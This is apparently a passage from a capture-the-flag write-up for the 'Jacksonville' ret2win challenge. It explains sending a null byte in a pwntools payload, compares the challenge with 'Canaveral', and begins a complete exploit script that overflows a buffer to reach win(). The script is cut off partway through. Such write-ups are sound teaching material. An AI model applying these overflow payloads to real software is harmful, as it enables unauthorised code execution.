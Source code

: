 For Jacksonville, alignment likely isn't an issue.

### Q9: Why can we include \0 in the middle of our input?

**A:** Because we're using pwntools to send raw bytes!

```python
payload = b"aaaaaaJaguars\x00" + b"more stuff"
          ↑                ↑
      String literal   Explicit null byte

p.sendline(payload)  # Sends all bytes including \0
```

The null byte doesn't terminate the payload when sent this way.

### Q10: What's the difference from Canaveral?

| Feature | Jacksonville | Canaveral |
|---------|--------------|-----------|
| **Complexity** | Simple ret2win | Two-stage RBP manipulation |
| **Leak needed** | No | Yes (stack address) |
| **Stages** | One payload | Two payloads |
| **Trick** | Null byte at offset 6 | Fake RBP calculation |
| **RBP matters** | No (not used by win) | Yes (used in exploit) |
| **Difficulty** | Beginner | Intermediate |

Jacksonville is **much simpler** - just overflow and return to win()!

---

## Complete Exploit Code

### Solution 1: Using pwntools ROP Helper

```python
#!/usr/bin/env python3
from pwn import *

FILE = "./jacksonville"
HOST, PORT = "chal.sunshinectf.games", 25602

context(log_level="info", binary=FILE)
elf = context.binary
rop = ROP(elf)

def launch():
    if args.LOCAL:
        return process(FILE)
    else:
        return remote(HOST, PORT)

def main():
    p = launch()
    
    # Build payload
    answer = b"aaaaaaJaguars\x00"  # 6 bytes padding + "Jaguars" + null
    length = len(answer)             # 14 bytes
    
    payload = flat(
        answer,                      # Pass strcmp check
        b"A" * (0x68 - length),      # Fill buffer (90 bytes)
```